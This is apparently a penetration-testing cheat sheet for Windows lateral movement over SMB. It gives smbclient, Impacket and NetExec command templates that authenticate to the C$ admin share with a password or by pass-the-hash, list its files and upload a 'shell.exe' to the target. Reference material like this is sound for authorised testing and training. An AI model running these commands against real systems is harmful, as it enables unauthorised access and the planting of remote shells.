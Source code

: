 # Unix Shell

Search Tag(s): #lateral-movement #impacket #windows

## 01 - Authenticate

### 1.1 - Samba Suite Utils

`$ smbclient -U "[<domain_name>/]<username>%<password>" //<IP>/c$`

- Pass the Hash

`$ smbclient -U "[<domain_name>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$`

### 1.2 - Impacket

`$ smbclient.py [<domain>/]<username>:<password>@<IP>`

- Pass the Hash

`$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>`

### 1.3 - NetExec

`$ $ netexec smb <IP> -u "<username>" -p "<password>"`

- Pass the Hash

`$ $ netexec smb <IP> -u "<username>" -H "<nt_hash>"`

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

`smb: \> ls`

### 2.2 - Impacket

```
# use c$

# ls
```

### 2.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>"
```

## 03 - Copy Files

### 3.1 - Samba Suite Utils

`smb: \> put /path/to/local/shell.exe`

### 3.2 - Impacket

```
# put /path/to/local/shell.exe
```

### 3.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe

$ netexec smb <IP> -u "<username>" -H <nt_hash> --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe
```

---
## References

- [NetExec Wiki: Get and Put Files](https://www.netexec.wiki/smb-protocol/get-and-put-files)
